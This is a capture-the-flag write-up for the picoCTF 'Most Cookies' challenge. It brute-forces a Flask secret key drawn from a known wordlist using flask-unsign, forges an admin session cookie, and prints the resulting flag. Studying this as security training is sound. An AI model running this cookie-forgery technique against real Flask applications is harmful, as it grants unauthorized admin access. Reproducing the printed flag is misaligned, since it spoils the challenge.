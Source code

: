 # Challenge "Most Cookies" Writeup

## Vulnerability: Weak Flask Session Cookie Secret Key

### Where: Flask session management with guessable secret keys

### Impact: This challenge demonstrates how using weak, predictable secret keys for Flask session cookies can lead to privilege escalation by allowing users to forge their own session cookies.

**NOTE**: The challenge involves brute-forcing the Flask secret key, which allows us to modify the session to access admin privileges and retrieve the flag.

## Steps to reproduce:

1. **Analyze the Code**:
   The server uses Flask session cookies and sets the `app.secret_key` by choosing randomly from a list of cookie names:

   ```
   app.secret_key = random.choice(cookie_names)
   ```

   The list of possible secret keys (`cookie_names`) is accessible in the code. Knowing the possible keys allows us to brute-force the actual secret key used to sign the session cookies.

2. **Inspect the Session Cookie**:
   We received a session cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHZvg.hvmOT3C_J1RVk3yrj7zA9Dxo8lA
   ```

   Decoding the base64 payload (`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9`) revealed:

   ```
   {"very_auth": "blank"}
   ```

   The `very_auth` key is set to `"blank"`, which corresponds to a non-admin user. To retrieve the flag, we need to change `very_auth` to `"admin"`.

3. **Brute-Force the Secret Key**:
   Using `flask-unsign`, we provided the session cookie and a wordlist of `cookie_names` from the code to brute-force the Flask secret key:

   ```
   flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHZvg.hvmOT3C_J1RVk3yrj7zA9Dxo8lA --wordlist wordlist.txt
   ```

   This returned:

   ```
   [+] Found secret key after 28 attempts: 'wafer'
   ```

4. **Forge an Admin Session Cookie**:
   Now that we have the secret key (`wafer`), we used `flask-unsign` to sign a new session cookie with `{"very_auth": "admin"}`:

   ```
   flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret wafer
   ```

   This generated a new session cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGHbOQ.4iogbBnCbe4C3zanPAtBnYj9CUg
   ```

5. **Retrieve the Flag**:
   We set this new session cookie in the browser and visited the `/display` page, which displayed the flag:

   ```
   picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
   ```

## Conclusion:

By brute-forcing the Flask secret key from a predictable list, we were able to forge a session cookie with admin privileges and retrieve the flag, successfully completing the challenge.
